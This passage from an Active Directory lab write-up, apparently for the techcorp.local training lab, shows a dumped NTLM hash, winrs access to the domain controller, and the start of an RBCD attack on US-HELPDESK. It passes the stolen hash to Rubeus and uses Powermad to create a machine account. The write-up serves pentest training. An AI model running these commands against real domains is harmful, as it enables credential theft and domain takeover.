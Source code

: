 ```powershell

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 43B70D2D979805F419E02882997F8F3F
PS C:\Auditor>
```
- We can now access `US-DC`.
```powershell
PS C:\Auditor> winrs -r:us-dc.us.techcorp.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> whoami;hostname
whoami;hostname
us\administrator
US-DC
```
# 14. Rights, Privileges and Permissions of `us\mgmtadmin`
## 14.1 Access Rights
- We have extracted the credentials of `us\mgmtadmin` after compromising `US-MGMT` where the account has access.
## 14.2 Account Privileges
- This account has administrative privileges on `US-MGMT`.
## 14.3 Account Permissions
- From BloodHound we can see that `us\mgmtadmin` has `GenericWrite`  permissions on `US-HELPDESK`. Generic Write access grants us the ability to write to any non-protected attribute on the target object, including "members" for a group, and "serviceprincipalnames" for a user
![[mgmtadmin_perms.png]]
- We can abuse this by setting up the target server for `RBCD` which can be later be abused to request TGSs to access it, or execute a Shadow Credentials attack that will allow us to modify the target object's attribute `msDS-KeyCredentialLink` and append it with alternate credentials in the form of certificates.
### 14.3.1 Set up `US-HELPDESK` for RBCD and abuse it
#### 14.3.1.1 Using *Powermad*
- First we need to impersonate `us\mgmtadmin`. We have already compromised the account's NTLM hash so we can request a TGT using `Rubeus`.
```powershell
PS C:\Auditor> .\Rubeus.exe asktgt /user:mgmtadmin /rc4:e53153fc2dc8d4c5a5839e46220717e5 /domain:us.techcorp.local /ptt

<snip>
```
- We can now use the permissions of the impersonated account to alter the `msds-allowedtoactonbehalfofotheridentity` attribute of the target account `us-helpdesk$` to point to the account of our compromised computer account, `us-mgmtadmin`. That way, we will create the conditions to execute an RBCD attack to compromise `US-HELPDESK`.
- Since we do not control an account with an SPN set currently, Kevin Robertson's Powermad project can be used to add a new attacker-controlled computer account.
```powershell
PS C:\Auditor> ipmo .\Powermad\Powermad.ps1
PS C:\Auditor> New-MachineAccount -MachineAccount US-WRKST1 -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force)
```